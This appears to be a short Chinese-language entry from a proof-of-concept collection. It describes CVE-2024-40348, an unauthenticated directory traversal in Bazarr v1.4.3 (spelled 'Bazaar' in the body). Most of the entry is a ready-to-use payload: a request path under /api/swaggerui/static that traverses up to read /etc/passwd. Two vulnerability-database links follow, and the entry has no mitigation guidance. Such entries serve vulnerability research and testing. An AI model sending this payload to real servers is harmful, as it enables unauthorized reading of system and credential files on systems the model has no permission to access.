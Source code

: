 # Bazarr任意文件读取(CVE-2024-40348)

Bazaar v1.4.3 的组件 /api/swaggerui/static 中存在一个问题，允许未经身份验证的攻击者执行目录遍历。

## poc

```yaml
/api/swaggerui/static/../../../../../../../../../../../../../../../../etc/passwd
```



## 漏洞来源

- https://www.seebug.org/vuldb/ssvid-99863
- https://github.com/4rdr/proofs/blob/main/info/Bazaar_1.4.3_File_Traversal_via_Filename.md